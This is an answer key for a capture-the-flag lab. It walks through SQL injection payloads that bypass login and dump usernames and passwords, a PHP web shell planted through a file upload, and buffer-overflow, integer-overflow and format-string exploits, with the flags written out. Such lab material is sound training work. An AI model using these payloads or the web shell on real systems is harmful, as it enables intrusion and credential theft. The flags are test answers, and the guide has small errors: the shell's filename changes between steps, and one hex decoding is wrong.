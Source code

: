 # CTF Flags Documentation

## Flag 1: Admin Password Discovery

**Name**: Database Infiltration Flag
**Location**: Base64-encoded admin password in the users table
**Flag Format**: CTF{<admin-password-decoded>}

1. Initial SQL Injection Bypass
    1. Navigate to the login page
    2. Use SQL injection to bypass authentication:
        1. Username: ' OR 1=1 --
        2. Password: anything
    3. This logs you in as the first user in the database

**Hint:** Don't forget to add a space after the `--` to comment out the rest of the query.

2. Access Profile Page

    1. Navigate to index.php?page=profile
    2. Locate the "Share Your Experience" review section


3. Exploit SQL Injection in Review Update

    1. Use the review textarea to perform SQL injection via the updateReview() function
    2. First, discover database structure:
        ```sql
        sql', review_text=(SELECT GROUP_CONCAT(table_name SEPARATOR ', ') FROM information_schema.tables WHERE table_schema=database()) WHERE '1'='1' -- 
        ```


4. Extract User Table Columns

```sql
sql', review_text=(SELECT GROUP_CONCAT(column_name SEPARATOR ', ') FROM information_schema.columns WHERE table_name='users') WHERE '
1'='
1' --
```

5. Extract User Data

```sql
sql', review_text=(SELECT GROUP_CONCAT(CONCAT(username,':',password,':',role) SEPARATOR ', ') FROM users) WHERE '
1'='
1' --
```

6. Decode Admin Password
    1. Locate the admin user entry in the extracted data
    2. The password is stored as base64-encoded
    3. Decode the base64 string to reveal the flag

## Flag 2: File System Access

**Name**: Server File System Flag
**Location**: /flag.txt file on the server
**Flag** Format: CTF{<content-of-flag-txt>}

1. Obtain Admin Credentials
    1. Complete Flag 1 exploit to get admin username and decoded password
2. Login as Administrator
    1. Use the admin credentials to log in properly as admin user
3. Access File Upload Functionality
    1. As an admin user, the profile page shows file upload capability
    2. The upload function in handleFileUpload() has no file type restrictions for admins
4. Create PHP Web Shell
    1. Create a PHP file with web shell functionality:
   ```html
   <html>
    <body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="text" name="command" autofocus id="command" size="50">
    <input type="submit" value="Execute">
    </form>
    <pre>
    <?php
        if(isset($_GET['command'])) 
        {
            system($_GET['command'] . ' 2>&1'); 
        }
    ?>
    </pre>
    </body>
    </html>
    ```
   2. Save as shell.png.php
5. Upload Web Shell
   1. Use the profile image upload feature to upload shell.php
   2. The file will be stored in the /uploads/ directory
6. Access Web Shell
   1. Navigate to /uploads/shell.php
   2. Use the command interface to explore the file system
7. Locate and Read Flag
   1. Execute ls or dir to list files in the current directory
   2. Look for flag.txt

## Flag 3: Coffee Strength Flag

**Name**: Coffee Strength Flag
**Location**: Encrypted in `barista_academy.c` binary, revealed upon solving Challenge 1
**Flag Format**: CTF{m0cha_myst3ries_r3v34l3d}

1. Gain Admin Access  
   1. Complete Flag 2 to obtain access to the PHP web shell.

2. Download the Vulnerable Binary  
   1. List the files and locate the base64-encoded binary named `barista_academy`.
   2. Base64-encode the binary on the server so you can copy it:
      ```sh
      base64 ./barista_academy
      ```

3. Decode and Prepare the Binary  
   1. On your local machine, decode the base64 file and make it executable.

4. Run the Binary in Docker  
   1. Move the obtained `barista_academy` binary to the `challenge/secret-executable` directory.
   2. Follow the instructions in `README.md` to run the program.
      ```sh
      ./run_barista.bat # on windows
      ./run_barista.sh  # on linux/macos
      ```
   3. Alternatively, you may run the binary directly if you have the necessary environment set up, it is a linux/amd64 binary.

5. Exploit the Buffer Overflow
   1. When prompted to enter your favorite coffee blend, input a string that overflows the buffer and overwrites the `coffee_strength` variable.
   2. The goal is to change `coffee_strength` from its initial value (e.g., 17) to exact amount required (this is randomized). Try inputting a string like:
      ```
      1234567890123456789012345678N
      ```
   3. If the value is not correct, adjust the final character until you reach the target value. The program will give hints about the current strength.
   4. Upon success, the program reveals the flag:
      ```
      CTF{m0cha_myst3ries_r3v34l3d}
      ```
    5. Enter this flag when restarting the program to unlock the next challenge.

## Flag 4: Coffee Shop Balance Flag

**Name**: Coffee Shop Balance Flag
**Location**: Encrypted in `barista_academy.c` binary, revealed upon solving Challenge 2
**Flag Format**: CTF{espresso_3xpr3ss_secrets}

1. After capturing Flag 3, the program unlocks Challenge 2.
2. You start with 1100 coins and can buy coffees costing 900 coins each.
3. The program checks if you have enough balance for the purchase.
4. Exploit integer overflow by entering a very large number of coffees to make the total cost overflow to a negative number (e.g., `12312312`).
5. This causes your balance to increase incorrectly. Repeat purchases if needed.
6. Once your balance reaches or exceeds 100,000 coins, the program awards Flag 4:
   ```
   CTF{espresso_3xpr3ss_secrets}
   ```
7. Enter this flag when restarting the program to unlock the next challenge.

**Hint:** Try entering a very large integer as the number of coffees to order. If the program rejects non-numeric input, use a large positive number to trigger the overflow.

## Flag 5: Secret Order Printer Flag

**Name**: Secret Order Printer Flag
**Location**: Encrypted in `barista_academy.c` binary, revealed upon solving Challenge 3
**Flag Format**: CTF{cappucc1n0_cr4ck3r_4l3rt}

1. After capturing Flag 4, the program unlocks Challenge 3.
2. Use the secret order printer feature, which reads your input and passes it directly to `printf` without format string protection.
3. Exploit the format string vulnerability by sending a payload such as:
   ```
   %llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx
   ```
4. The output will display hexadecimal values from the stack. Look for values that resemble ASCII when converted.
5. Reverse the byte order of each 64-bit chunk (little-endian) to reveal the flag. For example:
   - `707061637b465443` → `CTF{capp`
   - `635f306e31636375` → `uccino_3c`
   - ...

   There are many online tools available to help with this conversion. 

6. Combine the parts to get the full flag:
   ```
   CTF{cappucc1n0_cr4ck3r_4l3rt}
   ```

**Hint:** Use repeated `%llx` format specifiers to leak stack memory. Convert the hex output to ASCII and reverse the endianness for each chunk to reconstruct the flag.

